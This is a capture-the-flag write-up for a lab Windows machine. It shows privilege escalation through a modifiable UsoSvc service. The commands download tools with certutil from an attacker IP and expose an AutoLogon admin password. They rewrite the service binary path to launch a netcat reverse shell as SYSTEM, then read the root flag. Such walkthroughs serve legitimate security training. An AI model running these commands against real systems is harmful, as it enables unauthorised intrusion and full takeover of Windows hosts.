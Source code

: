 #### 4.1. WinPeas enum

```
PS C:\Users\Public> certutil.exe -urlcache -f http://10.10.14.6:8888/winPEASx64.exe winPEASx64.exe
PS C:\Users\Public> .\winPEASx64.exe
```

#### 4.2. Admin creds

WinPEAS output:

```
  [+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultUserName               :  Administrator
```

#### 4.3. Admin shell (PowerShell)

```
$username = 'Administrator';
$password = 'baconandcheesea';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Invoke-Command -ComputerName REMOTE -Credential $credential -ScriptBlock {whoami}
```
This probably failed.

#### 4.4. Vulnerable service

WinPEAS output:

```
  [+] Modifiable Services(T1007)
   [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    UsoSvc: AllAccess, Start
```

More info here:

```
https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/
```

#### 4.5. PowerUp

```
ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
```

#### 4.6. Exploiting `UsoSvc` service

1. Binary Path

Note: we can change the `BINARY_PATH_NAME` with arbitrary executable path, and once we restart the service our binary gets executed as SYSTEM

```
PS C:\Users\Public> sc.exe qc "UsoSvc"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

```

2. Upload NetCat

```
PS C:\Windows\Temp> certutil.exe -urlcache -f http://10.10.14.6:8888/nc64.exe nc.exe
PS C:\Windows\Temp> echo y | cacls nc.exe /g everyone:f
PS C:\Windows\Temp> cacls nc.exe
```

3. Abuse service binary path

```
PS C:\Windows\Temp> sc.exe config UsoSvc binPath="C:\Windows\Temp\nc.exe 10.10.14.6 5555 -e C:\Windows\System32\cmd.exe"
PS C:\Windows\Temp> sc.exe qc UsoSvc
...
        BINARY_PATH_NAME   : C:\Windows\Temp\nc.exe 10.10.14.6 5555 -e C:\Windows\System32\cmd.exe
...
PS C:\Windows\Temp> Restart-Service UsoSvc
[GOTTA BE QUICK HERE IN THE OTHER REV SHELL BECAUSE OF FOLLOWING ERROR]
Restart-Service : Service 'Update Orchestrator Service (UsoSvc)' cannot be started due to the following error: 
Cannot start service UsoSvc on computer '.'.
```

4. Reverse shell as `Administrator`:
```
# nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.180] 49692
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
type root.txt
3f78087ec20260dbd59af34b2dd36ee9
```

5. Alternative payload for service abuse path (no shell, just root flag)
```
PS C:\Windows\Temp> sc.exe config UsoSvc binPath="cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\Users\Public\root.txt"
PS C:\Windows\Temp> Restart-Service UsoSvc
PS C:\Windows\Temp> type C:\Users\Public\root.txt
3f78087ec20260dbd59af34b2dd36ee9
```
